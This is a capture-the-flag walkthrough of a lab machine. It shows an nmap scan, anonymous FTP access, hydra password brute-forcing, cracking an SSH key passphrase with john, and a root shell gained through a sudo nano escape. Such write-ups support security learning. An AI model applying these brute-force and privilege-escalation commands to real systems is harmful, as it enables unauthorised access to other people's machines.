 # Writeup for hackers 01 <br>

=> This machine is entairly based on Bruteforce.So comparitively with other machines it takes some time. <br>

1> nmap -sC -p- 10.10.142.184 <br>

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.0.8 or later
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
9999/tcp open  abyss?
```
2> ftp has an Anonymous login.
from ftp we will get a note.

which says 
```
Note:
Any users with passwords in this list:
love
sex
god
secret
will be subject to an immediate disciplinary hearing.
Any users with other weak passwords will be complained at, loudly.
These users are:
rcampbell:Robert M. Campbell:Weak password
gcrawford:Gerard B. Crawford:Exposing crypto keys, weak password
Exposing the company's cryptographic keys is a disciplinary offense.
Eugene Belford, CSO
```
3> bruteforce the password of gcrawford ftp using hydra
```
hydra ftp://10.10.142.184 -l gcrawford -P /usr/share/wordlists/rockyou.txt -t 64
```
once you get the password login to ftp and you will find out the id_rsa key and business.txt.

4> As id_rsa key is password protected lets use ssh2john and bruteforce the hash you got
```
 python3 /usr/share/john/ssh2john.py id_rsa > ssh_hash.txt
 ```
 ```
 john ssh_hash.txt --format=ssh --wordlist=/usr/share/wordlists/rockyou.txt
 ```
 5> once you get the password just login to the ssh connction.
 ```
 root@5h4rk:~/koth-hackers# ssh -i id_rsa gcrawford@10.10.142.184
Unauthorised access is a federal offense under the Computer Fraud and Abuse Act 1986
Enter passphrase for key 'id_rsa': 
Last login: Wed Apr 29 19:32:48 2020 from 192.168.170.1
gcrawford@gibson:~$ whoami
gcrawford
gcrawford@gibson:~$ ls
business.txt
gcrawford@gibson:~$ ls -lah
total 40K
drwxr-x--- 6 gcrawford gcrawford 4.0K Apr 30 04:25 .
drwxr-xr-x 6 root      root      4.0K Apr 29 22:05 ..
lrwxrwxrwx 1 gcrawford gcrawford    9 Apr 30 01:31 .bash_history -> /dev/null
-rw-r--r-- 1 gcrawford gcrawford  220 Apr 29 04:00 .bash_logout
-rw-r--r-- 1 gcrawford gcrawford 3.7K Apr 29 04:00 .bashrc
-r-------- 1 gcrawford gcrawford  252 Apr 30 04:25 business.txt
drwx------ 2 gcrawford gcrawford 4.0K Apr 29 17:05 .cache
drwx------ 3 gcrawford gcrawford 4.0K Apr 29 17:05 .gnupg
drwxrwxr-x 3 gcrawford gcrawford 4.0K Apr 29 20:53 .local
-rw-r--r-- 1 gcrawford gcrawford  807 Apr 29 04:00 .profile
drwx------ 2 gcrawford gcrawford 4.0K May  9 21:10 .ssh
gcrawford@gibson:~$ sudo -l
[sudo] password for gcrawford:        
Matching Defaults entries for gcrawford on gibson:
    env_reset, pwfeedback, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User gcrawford may run the following commands on gibson:
    (root) /bin/nano /home/gcrawford/business.txt
  ```

6> Time to root the machine! <br>
as we can see that we can run nano as root. from gtfobins there is cheat code:- <br>
use:-<br>
```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```
finally rooted the machine!

